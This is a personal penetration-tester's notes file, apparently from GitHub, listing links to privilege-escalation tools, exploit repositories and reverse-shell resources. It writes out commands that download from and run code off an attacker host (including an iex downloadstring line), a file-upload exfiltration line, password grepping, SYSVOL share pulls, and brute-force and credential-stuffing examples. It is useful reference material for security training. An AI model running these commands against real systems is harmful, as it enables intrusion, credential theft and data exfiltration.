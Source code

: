 # My notes

###### My General Notes.

  This notes contains link of tools, link of cheatsheets, Commands etc.

## Python pip

1. `Python2 -m pip YOUR_COMMAND` OR `pip2 YOUR_COMMAND`

2. `Python3 -m pip YOUR_COMMAND` OR `pip3 YOUR_COMMAND`

## Python3 server

1. Local server in current directory: `python3 -m http.server PORT`

2. Local server in specified directory:

    `python3 -m http.server PORT --directory DIRECTORY`

## Msfvenom CheatSheet

[MSFVenom - CheatSheet - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

## Peas Family

LinPeas and Winpeas located ate my [`Privesc_scripts`](https://github.com/CalegariMindSec/Privesc_scripts) repository.

[GitHub - carlospolop/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/carlospolop/PEASS-ng)

## Windows PrivEsc Scripts

[`My Privesc Scripts - Windows`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Windows_Privesc)

[PowerSploit/Privesc at master · PowerShellMafia/PowerSploit · GitHub](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

[GitHub - 7Ragnarok7/Windows-Exploit-Suggester-2: A tool to recommend available exploits for Windows Operating Systems](https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2)

[GitHub - r3motecontrol/Ghostpack-CompiledBinaries: Compiled Binaries for Ghostpack (.NET v4.0)](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[GhostPack · GitHub](https://github.com/GhostPack)

### Windows PrivEsc Kernel Exploits

[Windows Exploits](https://github.com/abatchy17/WindowsExploits)

[GitHub - SecWiki/windows-kernel-exploits: windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)

[Exploitdb-bin-sploits/bin-sploits at master · offensive-security/exploitdb-bin-sploits · GitHub](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)

### Windows PrivEsc CheatSheet

[Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

[Notes TCM Course](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)

[PayloadAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Linux PrivEsc Cheatsheet

[`My Privesc Scripts - Linux`](https://github.com/CalegariMindSec/Privesc_scripts/tree/main/Linux_Privesc)

[Linux Privilege Escalation - HackTricks Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[PayloadAllTheThings - Linux ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

### Windows Binaries

[LOLBAS Project](https://lolbas-project.github.io/)

### Unix Binaries

[GTFOBins](https://gtfobins.github.io/)

### Listerners (Better Alternatives to Netcat)

[Netpwn](https://github.com/anthares101/netpwn)

[Pwncat](https://github.com/calebstewart/pwncat)

### File Download - Windows

1. ```powershell
   certutil.exe -urlcache -f http://IP:PORT/FILE.exe FILE.exe
   ```

2. ```powershell
   powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP:PORT/FILE', 'C:\FULL\PATH\FILE')
   ```

3. ```powershell
   powershell.exe -command iwr -Uri http://IP:PORT/FILE -OutFile "C:\PATH\FILE"
   ```

4. ```powershell
    powershell.exe wget http://IP:PORT/FILE -OutFile FILE
   ```

5. ```powershell
   powershell iex(new-object net.webclient).downloadstring('http://IP:PORT/FILE')
   ```

6. ```powershell
   Start-BitsTransfer -Source https://IP:PORT/FILE -Destination "C:\FULL\PATH\FILE"
   ```
7. ```python3
   impacket-smbserver share . -smb2support (Attacker Machine)
   copy C:\File\To\PATH \\AttackerIP\share\
   ```

### File Upload - Windows

1. ```powershell
   powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
   ```

### File Download - Linux

1. ```bash
   wget http://IP:PORT/FILE
   ```

2. ```bash
   curl http://IP:PORT/FILE -o FILE
   ```

### Python3 tty Shell Spawning

1. ```python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

2. ```python
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   ```

### Active Directory Exploitation

[GitHub - S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet: A cheat sheet that contains common enumeration and attack methods for Windows Active Directory.](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
[CME cheat sheet](https://wiki.porchetta.industries/)
[Kerberos Attack](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Reverse shell

[Reverse Shell Generator](https://www.revshells.com/)
[Reverse shell cheat sheet PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Find Passwords Linux

  *
      ```
      grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null
      ```

### Download Scripts From SBM Netlogon and Sysvol

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R SYSVOL --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

  *
    ```
    smbmap -u <user> -p '<password>' -d <domain> -H <dc-ip> -R NETLOGON --depth 10 -A "^.*\.(vbs|ps1|bat|vbe)$"
    ```

### FFUF Brute Force And Credential Stuffing

  * Brute Force - Example:
    ```
    ffuf -request req.txt -w xato-net-10-million-passwords-10000.txt -request-proto http -fc 401
    ```

  * Credential Stuffing - Example:
    ```
    ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401
    ```

### Kali Linux Windows Features

  * 1 ) [pwsh](https://www.kali.org/tools/powershell/) - Powershell Terminal
  * 2 ) [wine](https://www.winehq.org/) - Run Run Windows applications on Linux, BSD, Solaris
    * 2.1) [Install](https://techviewleo.com/how-to-install-wine-on-kali-linux/)
  * 3 ) [mono](https://www.mono-project.com/) - Mono is a software platform designed to allow developers to easily create cross platform applications
    * 3.1) [Install](https://linuxize.com/post/how-to-install-mono-on-ubuntu-20-04/)
  * 4 ) [ILspycmd](https://github.com/icsharpcode/ILSpy/tree/master/ICSharpCode.ILSpyCmd) - ILSpy is the open-source .NET assembly browser and decompiler.
    * 4.1) [Install](https://www.nuget.org/packages/ilspycmd/)
    * 4.2) [Usage Example - HTB Support Machine Writeup]()
    * 4.3) **Command example:** ilspycmd FILE.exe -p -o /Path/To/File/

### Powershell B64 convert file

```powershell
[convert]::ToBase64String((Get-Content -path "FILE" -Encoding byte))
```

### Password Wordlists

Usar [QbitTorrent](https://www.qbittorrent.org/download) para download.

	* https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md
	* https://github.com/ohmybahgosh/RockYou2021.txt

### Username Wordlist Generation - John Rule

Reference: https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name

```bash
┌──(kali㉿kali)-[~/Desktop/]
└─$ cat teste.txt    
Thiago Teste
Allow Rubens
Ana Taylor                                                                                                                          

┌──(kali㉿kali)-[~/Desktop/]
└─$ john --wordlist=teste.txt --rules=Login-Generator --stdout > usernames.txt
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
237p 0:00:00:00 100.00% (2024-02-14 12:37) 7900p/s TAYLOR-A                                                                    

┌──(kali㉿kali)-[~/Desktop/]
└─$ wc -l usernames.txt                                                                            
237 usernames.txt
```


